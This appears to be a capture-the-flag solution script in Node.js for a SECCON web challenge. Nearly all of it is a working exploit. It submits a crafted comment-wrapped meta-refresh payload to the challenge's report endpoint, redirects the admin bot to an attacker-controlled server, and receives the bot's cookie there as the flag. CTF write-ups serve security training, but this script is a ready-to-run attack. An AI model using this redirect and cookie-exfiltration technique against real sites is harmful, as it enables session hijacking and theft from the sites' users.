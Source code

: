 `index.js`:
```javascript
const fastify = require("fastify")();
const fs = require("node:fs").promises;

const fail = (message) => {
  console.error(message);
  return process.exit(1);
};

const SECCON_BASE_URL = process.env.SECCON_BASE_URL ?? fail("No SECCON_BASE_URL");
const ATTACK_BASE_URL = process.env.ATTACK_BASE_URL ?? fail("No ATTACK_BASE_URL");
const LISTEN_PORT = process.env.PORT ?? "8080";

const sleep = (msec) => new Promise((resolve) => setTimeout(resolve, msec));

const exploit = async () => {
  const meta = `<meta http-equiv="Refresh" content="0; URL=${ATTACK_BASE_URL}">`;
  const code = `/*!${"\n".repeat(meta.length + 3)}${meta}*/\n`;

  const res = await (
    await fetch(`${SECCON_BASE_URL}/report`, {
      method: "POST",
      headers: {
        "Content-Type": "application/json",
      },
      body: JSON.stringify({
        code,
      }),
    })
  ).text();
  console.log(res); // "Received :)"
};

const start = async () => {
  fastify.get("/", async (req, reply) => {
    const html = await fs.readFile("index.html");
    return reply.type("text/html; charset=utf-8").send(html);
  });

  fastify.get("/print", async (req, reply) => {
    console.log(req.query.cookie); // Print a flag
    process.exit(0);
  });

  fastify.listen(
    { port: LISTEN_PORT, host: "0.0.0.0" },
    async (err, address) => {
      if (err) {
        fastify.log.error(err);
        process.exit(1);
      }

      await sleep(2 * 1000);
      await exploit();

      await sleep(10 * 1000);
      fail("Failed");
    }
  );
};
start();
```
